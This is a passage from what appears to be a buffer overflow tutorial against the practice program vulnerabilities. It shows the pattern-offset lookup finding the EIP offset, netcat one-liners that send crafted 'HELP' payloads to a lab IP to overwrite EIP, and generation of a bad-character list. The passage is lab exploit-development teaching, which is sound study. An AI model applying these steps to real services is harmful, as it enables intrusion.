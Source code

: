 ```bash
└─$ msf-pattern_offset -l 100 -q 33634132                              
[*] Exact match at offset 68

```

So the location is 68, which mean after 68 chars we overwrite the EIP in case we insert input that in size of 100 chars. So now we need to check how much more bytes we can insert so the location of the EIP will not change.

```bash
echo $(python2 -c "print 'HELP'+'A'*68+'B'*4+'C'*32")|nc 192.168.126.36 8080
```

You can see the `B` value which is `\x42` that overwrite the EIP, which is excellent! so now we need to check how much data we can insert that the EIP will remain on the same location.

```bash
echo $(python2 -c "print 'HELP'+'A'*68+'B'*4+'C'*32+'D'*100")|nc 192.168.126.36 8080
```

As you can see we add extra more 100 `D` chars, if the EIP location was change by running that data against vulnserver, it mean that we need to reduce the size of the data we sending after the overflow location which on our case 104 chars, if the EIP location didn't change, we can proceeding to the next step of finding the badchars.

![bo-031.png](/assets/images/bo-031.png)
**Figure 31** EIP overwrite.

So now after we saw that the location of the EIP doesn't change, we can run `badchars` command and run our `nc` again with the echo check of the badchars.

```bash
└─$ badchars -f js | sed 's/ //g' | sed 's/"//g' | sed 's/+//g' | tr -d "\n"                         
varbadchars=\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff;
```
